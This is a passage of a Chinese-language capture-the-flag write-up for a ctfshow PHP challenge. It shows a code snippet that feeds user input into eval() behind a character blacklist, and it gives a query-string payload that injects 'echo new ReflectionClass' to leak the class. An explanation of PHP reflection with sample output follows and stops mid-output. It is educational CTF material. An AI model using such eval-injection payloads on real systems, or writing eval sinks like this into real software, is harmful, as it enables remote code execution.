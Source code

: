 ```php
        if (!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)) {
            eval("$v2('ctfshow')$v3");
        }
    }
}
?>
```

**payload：**`?v1=1&v2=echo new ReflectionClass&v3=;`

反射类可以说成是类的一个映射，可以利用反射类来代替有关类的应用的任何语句

其属性为类的一个名称，这道题目里面类的名称为ctfshow

**举例：**

```php
<?php
class hacker
{
    public $hackername = "yn8rt";
    const  yn8rt = 'nb666';
    public  function show()
    {
        echo $this->name, '<br>';
    }
}
//有这么一个hacker类，假设我们不知道这个类是干什么用的，我们需要知道类里面的信息，这时候就需要用到ReflectionClass来对类进行反射
//现在我可以通过反射来获取这个类中的方法，属性，常量

//通过反射获取类的信息

$reflection = new ReflectionClass('hacker'); //实例化反射对象,映射hacker类的信息
$consts = $reflection->getConstants(); //获取所有常量
$props = $reflection->getProperties(); //获取所有属性
$methods = $reflection->getMethods(); //获取所有方法
var_dump($consts);
var_dump($props);
var_dump($methods);

?>
```

**返回值：**

```php
<?php
array(1) {
  ["yn8rt"]=>
  string(5) "nb666"
}
array(1) {
  [0]=>
  &object(ReflectionProperty)#2 (2) {
    ["name"]=>
    string(10) "hackername"
    ["class"]=>
    string(6) "hacker"
  }
}
array(1) {
  [0]=>
  &object(ReflectionMethod)#3 (2) {
    ["name"]=>
    string(4) "show"
    ["class"]=>
```